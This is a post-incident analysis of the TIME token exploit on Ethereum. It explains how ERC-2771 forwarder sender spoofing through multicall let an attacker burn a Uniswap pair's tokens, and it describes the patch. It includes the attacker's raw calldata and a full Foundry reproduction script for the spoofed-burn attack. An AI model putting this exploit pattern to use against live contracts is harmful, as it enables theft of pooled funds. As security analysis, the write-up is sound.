










# 231206-TIME

## AttackTx

Analyzing the [attack transaction](https://phalcon.blocksec.com/explorer/tx/eth/0xecdd111a60debfadc6533de30fb7f55dc5ceed01dfadd30e4a7ebdb416d2f6b6) using Phalcon.

### Fund Flow



The fund flow is straightforward. Initially, the `attackContract` exchanges 5 Ether for WETH, then exchanges WETH for TIME tokens (4, 5), with a possibility that some TIME tokens were burned during the exchange process (6).

Subsequently, TIME tokens are exchanged back for WETH, yielding approximately 94.5 WETH, significantly more than the initial 5 WETH input.

Finally, a bribe is made to the builder, indicating the use of Flashbots' service to prevent frontrunning.

From the fund flow, it appears that there was a vulnerability in the TIME token that allowed the attacker to burn TIME tokens in the Uniswap pair, artificially increasing the price of the TIME tokens obtained, thus profiting from the attack.

### Invocation Flow

Next, let's analyze the invocation flow.



Similar to the previous analysis, there is an exchange of WETH for TIME tokens.



Subsequently, a `execute` function of a Forwarder contract is called, with parameters including a signature verified by `ecrecover`.

Next, the `multicall` function of the TIME token is called, followed by a call to the `burn` function. Strangely, the Uniswap pair's token is burned directly here, rather than the attacker's own tokens.



Finally, a `sync` is called, reducing the reserves corresponding to the TIME tokens in the pair. This raises the price of TIME tokens, allowing the attacker to sell them for WETH, completing the attack by bribing the builder.

## Vulnerability

It is evident that the vulnerability exploited by the attacker lies in the call flow `Forwarder.execute->Token.multicall->Token.burn`. Let's analyze it below.

The main code of [Forwarder](https://etherscan.io/address/0xc82bbe41f2cf04e3a8efa18f7032bdd7f6d98a81#code) is as follows:


``` solidity
struct ForwardRequest {
    address from;
    address to;
    uint256 value;
    uint256 gas;
    uint256 nonce;
    bytes data;
}

function verify(ForwardRequest calldata req, bytes calldata signature) public view returns (bool) {
    address signer = _hashTypedDataV4(
        keccak256(abi.encode(TYPEHASH, req.from, req.to, req.value, req.gas, req.nonce, keccak256(req.data)))
    ).recover(signature);

    return _nonces[req.from] == req.nonce && signer == req.from;
}

function execute(ForwardRequest calldata req, bytes calldata signature)
    public
    payable
    returns (bool, bytes memory)
{
    require(verify(req, signature), "MinimalForwarder: signature does not match request");
    _nonces[req.from] = req.nonce + 1;

    // solhint-disable-next-line avoid-low-level-calls
    (bool success, bytes memory result) = req.to.call{ gas: req.gas, value: req.value }(
        abi.encodePacked(req.data, req.from)
    );

    if (!success) {
        // Next 5 lines from https://ethereum.stackexchange.com/a/83577
        if (result.length < 68) revert("Transaction reverted silently");
        assembly {
            result := add(result, 0x04)
        }
        revert(abi.decode(result, (string)));
    }
    // Check gas: https://ronan.eth.link/blog/ethereum-gas-dangers/
    assert(gasleft() > req.gas / 63);
    return (success, result);
}
```

The core function `execute` accepts a `ForwardRequest` and `signature`, verifies that the signer is `req.from`, and then uses the relevant information from `req` to make a call to `req.to` with gas as `req.gas` and value as `req.value`, using data as `abi.encodePacked(req.data, req.from)`.

In this attack, the request encapsulated here is evidently a multicall to the TIME token. The implementation of this function is as follows:

``` solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}

function _functionDelegateCall(address target, bytes memory data) private returns (bytes memory) {
    require(AddressUpgradeable.isContract(target), "Address: delegate call to non-contract");

    // solhint-disable-next-line avoid-low-level-calls
    (bool success, bytes memory returndata) = target.delegatecall(data);
    return AddressUpgradeable.verifyCallResult(success, returndata, "Address: low-level delegate call failed");
}
```

It directly calls `delegatecall` on `address(this)` with the given data,  which actually calls the `burn` function below.

``` solidity
function burn(uint256 value) public virtual {
    _burn(_msgSender(), value);
}

function _msgSender()
    internal
    view
    virtual
    override(ContextUpgradeable, ERC2771ContextUpgradeable)
    returns (address sender) {
    return ERC2771ContextUpgradeable._msgSender();
}

function _msgSender() internal view virtual override returns (address sender) {
    if (isTrustedForwarder(msg.sender)) {
        // The assembly code is more direct than the Solidity version using `abi.decode`.
        assembly {
            sender := shr(96, calldataload(sub(calldatasize(), 20)))
        }
    } else {
        return super._msgSender();
    }
}
```

The `burn` function burns the tokens of `_msgSender()`. The `_msgSender()` function calls `_msgSender()` from ERC2771. In this function, it first checks if `msg.sender` is a `TrustedForwarder`. If not, indicating a regular user's call, it returns `msg.sender` normally. Otherwise, it indicates a call through a legitimate Forwarder contract, returning the last 20 bytes of the data as the sender.

The process of function calls implemented through Forwarder is actually [ERC-2771](https://eips.ethereum.org/EIPS/eip-2771), which allows for function calls without the need for users to send transactions themselves, but instead providing a signature for others to execute the corresponding function calls. The request forwarded by Forwarder can be understood as a packaged call. As long as the user provides the call information and the corresponding signature, others can make the call on their behalf.

Normally, the process of forwarding calls by this Forwarder should be perfectly reasonable. When determining the sender of the call, it should obviously be the signer of `req`, not the actual transaction sender. So, during forwarding, the Forwarder appends `req.from`, the signer, to the end of the data, and then in `_msgSender`, it reads the last 20 bytes, thus correctly obtaining the msgSender.

At first glance, this process seems fine. However, by combining with the `multicall` function implemented by the TIME token, the attacker bypassed the above identification of sender.

The `req.data` passed by the attacker is as follows:

```
0xac9650d8   // multicall
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000038
42966c68    // burn
0000000000000000000000000000000000000000c9112ec16d958e8da8180000  // value
760dc1e043d99394a10605b2fa08f123d60faf840000000000000000
```

The final data forwarded by the Forwarder is `req.data + req.from`. Thus, the Forwarder effectively forwarded a `multicall` to the TIME token. In this call, if `msgSender()` is involved, it will be the address of the actual attacker. However, the `multicall` will continue to delegatecall, and at this point, the attacker can maliciously append an additional address after the data of the single `multicall`, allowing the call to be executed with a manipulated sender without affecting the original call.

```
forwarder -> multicall + req.from
    multicall (msgSender->req.from) -> burn + pairAddress
        burn (msgSender->

pairAddress) 
```

OpenZeppelin considers this as an [Arbitrary Address Spoofing Attack](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure).

## Exploit

### Reproduce

According to the attack principles mentioned earlier, the vulnerability exploitation script can be constructed as follows.

``` solidity
(addr, privateKey) = makeAddrAndKey("attacker");

function testExploit() public {
    vm.startPrank(addr, addr);
    uint attackBlockNumber = 18730462;
    vm.rollFork(attackBlockNumber);
    deal(address(weth), address(addr), 5 ether);
    uint256 wethBalanceBefore = weth.balanceOf(address(addr));
    emit log_named_decimal_uint("WETH balance before attack", wethBalanceBefore, 18);
    time.approve(address(router), type(uint256).max);
    weth.approve(address(router), type(uint256).max);
    WETHToTIME();

    emit log_named_decimal_uint("Pair TIME balance", time.balanceOf(address(time_weth)), time.decimals());

    // construct calldata
    uint256 burnAmount = time.balanceOf(address(time_weth)) - 1e18;
    bytes memory burnData = abi.encodeWithSelector(ITIME.burn.selector, burnAmount);
    bytes[] memory data = new bytes[](1);
    data[0] = abi.encodePacked(burnData, address(time_weth));
    bytes memory multicallData = abi.encodeWithSelector(ITIME.multicall.selector, data);

    // construct ForwardRequest
    bytes32 TYPEHASH = keccak256("ForwardRequest(address from,address to,uint256 value,uint256 gas,uint256 nonce,bytes data)");
    Forwarder.ForwardRequest memory req = Forwarder.ForwardRequest({
        from: address(addr),
        to: address(time),
        value: 0,
        gas: 5e6,
        nonce: 0,
        data: multicallData
    });
    // construct signature
    bytes32 structHash = keccak256(abi.encode(TYPEHASH, req.from, req.to, req.value, req.gas, req.nonce, keccak256(req.data)));
    bytes32 _CACHED_DOMAIN_SEPARATOR= hex"7ce8d495cdbd0e4deb3abed5528be0aca8dae1c9f4172364ceec32c5051da6b8";
    bytes32 messageHash = ECDSA.toTypedDataHash(_CACHED_DOMAIN_SEPARATOR, structHash);
    (uint8 v, bytes32 r, bytes32 s) =  vm.sign(privateKey, messageHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    forwarder.execute(req, signature);
    time_weth.sync();
    emit log_named_decimal_uint("Pair TIME balance", time.balanceOf(address(time_weth)), time.decimals());

    TIMEToWETH();
    uint256 wethBalanceAfter = weth.balanceOf(address(addr));
    emit log_named_decimal_uint("WETH balance after attack", wethBalanceAfter, 18);
    emit log_named_decimal_uint("Attacker profit", wethBalanceAfter - wethBalanceBefore, 18);
    vm.stopPrank();
}


function WETHToTIME() internal {
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(time);
    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        weth.balanceOf(address(addr)),
        0,
        path,
        address(addr),
        block.timestamp
    );
}

function TIMEToWETH() internal {
    address[] memory path = new address[](2);
    path[0] = address(time);
    path[1] = address(weth);
    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        time.balanceOf(address(addr)),
        0,
        path,
        address(addr),
        block.timestamp
    );
}
```

After buying TIME tokens, the attacker first constructed malicious `multicall` invocation data, then crafted the corresponding ForwardRequest, followed by constructing the message hash and signing it. They then forwarded the execution message through the Forwarder, burning almost all TIME tokens in the pool, driving up the price before exchanging their TIME tokens for ETH to profit.

However, because the original attack did not burn all TIME tokens in the Pair to drain it, it was attacked again approximately 5 hours later. In this [attack](https://phalcon.blocksec.com/explorer/tx/eth/0x1911be7020af964e35abfe5a94c9f2a232cc017532c1c14a1dea57c6ac011af3), the attacker directly made the Pair transfer a large amount of tokens to them by constructing a malicious ForwardRequest, then exchanged them for ETH to profit.

### Attack Flow

It is apparent that the actual attacker behind the attack was [frontrunner](https://etherscan.io/address/0xfde0d1575ed8e06fbf36256bcdfa1f359281455a), who directly copied the attack invocation from the [original attacker](https://etherscan.io/address/0xa16a5f37774309710711a8b4e83b068306b21724) (`req.from` is the original attacker).



The original attacker transferred about 0.5 ETH from an address (possibly used for a mixing service) on the afternoon of December 6. Then in the evening, they created an attack contract against the [TIME token](https://etherscan.io/address/0x4b0e9a7da8bab813efae92a6651019b8bd6c0a29), but before they could launch the transaction, they were immediately frontrun by frontrunner (in the next block after the contract creation).

Two hours later, they created an attack contract against the [Dyl token](https://etherscan.io/address/0xe62be16aa3c50bafb1855b4ded7799d9150bb1a1), but once again, they were frontrun by [frontrunner](https://phalcon.blocksec.com/explorer/tx/eth/0xc7df7e7bc537785b9068f4d6356caba3b16df1b6054927314724a9b2e49ab18b).

Half a day later, they created an attack contract against the [PCOIN token](https://etherscan.io/address/0x677da32f1e790826995be40f1bc7fdda5f3b6999) and launched the attack.



However, due to the error in the attack logic, this attack failed.

Half a month later, the attacker transferred the remaining funds to [another address](https://etherscan.io/address/0x9e985990c8ce0ac5788cac30d0d1bfb3e48fcd9a).



They then created a token called BEACH and its corresponding pair, and added liquidity.

However, the BEACH token was attacked by [another attacker](https://etherscan.io/tx/0x729f771117a5016c27ccf7197fa91ac86232e9c78c8d8b030ec13836444feced) two days later, due to the `burn` function being public.

## Misc

### Copycat

In addition to the original attack, which was copied by others due to the remaining funds, there were many attacks targeting the same vulnerability. For example, there were several attempts by the original attacker to launch further attacks.



The attack on the PCOIN token failed due to the attack logic error, but shortly after, another [copycat](https://etherscan.io/address/0xDFa0E64dA6924bFC3889a556ce33B42816DC681d) launched an attack against the token.

Checking this address reveals that it has launched other attacks as well.



The attacker claimed to be thankful for the teachings of BlockSec and claimed to be a whitehat who would return the funds.



However, several months later, some funds were transferred to Tornado Cash, which is somewhat suspicious.

### Patch

OpenZeppelin subsequently updated the implementation of the `multicall` function to avoid this kind of vulnerability. The current implementation is as follows:

```solidity
/*
 * NOTE: Since 5.0.1 and 4.9.4, this contract identifies non-canonical contexts (i.e. `msg.sender` is not {_msgSender}).
 * If a non-canonical context is identified, the following self `delegatecall` appends the last bytes of `msg.data`
 * to the subcall. This makes it safe to use with {ERC2771Context}. Contexts that don't affect the resolution of
 * {_msgSender} are not propagated to subcalls.
 */
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    bytes memory context = msg.sender == _msgSender()
        ? new bytes(0)
        : msg.data[msg.data.length - _contextSuffixLength():];

    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), bytes.concat(data[i], context));
    }
    return results;
}
```

This implementation ensures that in the `delegatecall` invocation of `multicall`, the last 20 bytes are still `req.from`, correctly identifying the `msgSender`.